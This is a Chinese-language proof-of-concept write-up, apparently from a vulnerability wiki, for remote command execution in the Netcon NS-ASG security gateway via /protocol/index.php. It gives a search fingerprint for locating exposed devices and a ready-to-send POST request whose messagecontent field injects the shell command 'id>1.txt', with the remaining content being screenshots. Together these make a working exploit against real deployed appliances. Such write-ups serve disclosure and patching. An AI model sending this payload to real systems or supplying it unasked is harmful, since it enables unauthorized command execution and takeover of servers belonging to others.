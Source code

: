 # 网康 NS-ASG安全网关 index.php 远程命令执行漏洞

## 漏洞描述

网康 NS-ASG安全网关 index.php文件存在远程命令执行漏洞，攻击者通过构造特殊的请求包可以获取服务器权限

## 漏洞影响

<a-checkbox checked>网康 NS-ASG安全网关</a-checkbox></br>

## 网络测绘

<a-checkbox checked> title=="网康 NS-ASG 应用安全网关"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1660545594828-6a216122-73d2-4dd4-91d3-8f91dfd9d903-20230311202627447.png)

存在漏洞的文件为 /protocol/index.php ，通过文件读取可以获取到源码

![img](/assets/PeiQi-Wiki/img/1660545902675-0586f8f2-d3c8-4dbe-816e-821013ba8e83-20230311202624155.png)

![img](/assets/PeiQi-Wiki/img/1660546891442-cd318722-bd7d-474f-8e6b-17dfb7ded9de-20230311202624159.png)

通过构造请求包进行命令拼接漏洞执行命令

```php
POST /protocol/index.php
  
jsoncontent={"protocolType":"getsysdatetime","messagecontent":"1;id>1.txt;"}
```

![img](/assets/PeiQi-Wiki/img/1660547107247-ca9ae305-a265-4ad1-978b-a344384d8c9c-20230311202623936.png)

![img](/assets/PeiQi-Wiki/img/1660547143958-774e5dad-e5f1-4277-bb12-36653c843adf-20230311202623607.png)